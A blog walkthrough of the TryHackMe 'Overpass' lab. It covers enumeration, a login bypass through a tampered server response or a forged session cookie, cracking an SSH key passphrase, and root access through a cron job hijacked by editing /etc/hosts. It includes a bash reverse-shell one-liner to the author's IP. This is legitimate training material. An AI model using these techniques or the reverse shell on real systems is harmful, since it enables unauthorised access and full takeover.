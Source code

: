 ```yaml
---
layout: post
published: true
title: "TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).

>Hello, today we are going to solve an exciting room Overpass, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---

<h3>Nmap</h3>

![Overpass Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultaneously starting nikto scan till then but got nothing unusual.

![OverpassWalkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.

<h3>Dirsearch Scan</h3>

![Overpass room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server into running the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)


Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_Overpass_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![writeup Overpass response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![Overpass solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><b>BONUS</b></h3>

---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
	1.There is a user name james.
	2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphrase that is <b>james13</b>. Now we can log in via SSH.

![ssh_Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
	1.Can't run sudo -l as don't know james password.
	2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![Overpass_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)

```
	1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
	2. Make the same directory as "/downloads/src/buildscript.sh" 
	3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
	4.Now start a netcat listener locally to which the Box will connect.
	5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
	6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.

```

![Overpass_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, an I enjoyed soving it and writing its walkthrough.





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
